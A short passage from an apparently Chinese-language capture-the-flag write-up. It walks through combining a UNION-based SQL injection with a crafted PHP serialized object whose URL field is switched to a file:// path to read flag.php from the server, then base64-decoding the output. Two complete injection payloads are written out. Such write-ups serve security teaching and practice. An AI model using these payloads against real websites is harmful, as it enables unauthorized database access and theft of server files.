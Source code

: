 首先尝试将反序列化字符串通过`union`注入提交到`PHP`后台，发现依然可以成功解析，记得给反序列字符串加上单引号

```
payload：?no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:18;s:4:"blog";s:20:"http://www.baidu.com";}'
```

<img src="CTF.assets/image-20230709195704346.png" alt="image-20230709195704346" style="zoom:50%;" />

对反序列化的内容进行修改，依然可以成功识别

<img src="CTF.assets/image-20230709195730325.png" alt="image-20230709195730325" style="zoom:50%;" />

使用`PHP伪协议`读取FLAG

```
payload：?no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:15;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

<img src="CTF.assets/image-20230709195848702.png" alt="image-20230709195848702" style="zoom:50%;" />

查看源码

<img src="CTF.assets/image-20230709195910078.png" alt="image-20230709195910078" style="zoom:50%;" />

将数据使用`base64`解码

<img src="CTF.assets/image-20230709195957119.png" alt="image-20230709195957119" style="zoom:50%;" />

